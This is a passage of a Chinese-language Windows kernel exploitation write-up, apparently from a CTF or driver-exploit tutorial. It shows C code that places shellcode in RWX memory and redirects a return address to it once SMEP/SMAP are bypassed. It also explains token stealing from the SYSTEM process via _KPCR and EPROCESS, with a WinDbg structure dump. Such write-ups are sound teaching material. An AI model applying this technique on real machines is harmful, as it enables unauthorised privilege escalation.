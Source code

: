 ### jump to shellcode
接下來跳回 userspace 上的 shellcode，開始提權

```c
   char shellcode[] = "\x48\xC7\xC0\x34\x12\x00\x00\x48\xC7\xC7\x68\x15\x00\x00\x48\x31\xF8";

    uintptr_t shellcode_ptr = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(shellcode_ptr, shellcode, sizeof(shellcode));

    payload[40] = ADDR(shellcode_ptr);
```

先 VirtualAlloc 一塊 rwx 的區段，把 shellcode 寫上去
接下來 return address 部分寫 shellcode address
因為 SMAP/SMEP 已經被寫掉了，所以可以跳到 userspace shellcode 上

來寫 shellcode
https://defuse.ca/online-x86-assembler.htm#disassembly

首先先上張圖

> Use gs find structure _KPCR -> _ETHREAD -> EPROCESS
> Loop traverse EPROCESS linklist and find pid 4's process. It is system integrity process's token
> Change yourself process token and return (You must recover register about protection, because kernel will check.)

我們需要找出 system 這支 process 的 EPROCESS 裡面的 token，寫到自己 process 的 token
要從 gs 找 _KPCR struct
觀察 _KPCR
```
kd> dt _KPCR fffff80112314000
ndis!_KPCR
   +0x000 NtTib            : _NT_TIB
   +0x000 GdtBase          : 0xfffff801`17a00fb0 _KGDTENTRY64
   +0x008 TssBase          : 0xfffff801`179ff000 _KTSS64
   +0x010 UserRsp          : 0x61f5a8
   +0x018 Self             : 0xfffff801`12314000 _KPCR
   +0x020 CurrentPrcb      : 0xfffff801`12314180 _KPRCB
   +0x028 LockArray        : 0xfffff801`12314870 _KSPIN_LOCK_QUEUE
   +0x030 Used_Self        : 0x00000000`00383000 Void
   +0x038 IdtBase          : 0xfffff801`179fe000 _KIDTENTRY64
   +0x040 Unused           : [2] 0
   +0x050 Irql             : 0 ''
   +0x051 SecondLevelCacheAssociativity : 0x10 ''
   +0x052 ObsoleteNumber   : 0 ''
   +0x053 Fill0            : 0 ''
   +0x054 Unused0          : [3] 0
   +0x060 MajorVersion     : 1
   +0x062 MinorVersion     : 1
   +0x064 StallScaleFactor : 0xda5
   +0x068 Unused1          : [3] (null) 
   +0x080 KernelReserved   : [15] 0
   +0x0bc SecondLevelCacheSize : 0x2000000
   +0x0c0 HalReserved      : [16] 0xd03982f0
   +0x100 Unused2          : 0
   +0x108 KdVersionBlock   : (null) 
   +0x110 Unused3          : (null) 
   +0x118 PcrAlign1        : [24] 0
   +0x180 Prcb             : _KPRCB
```

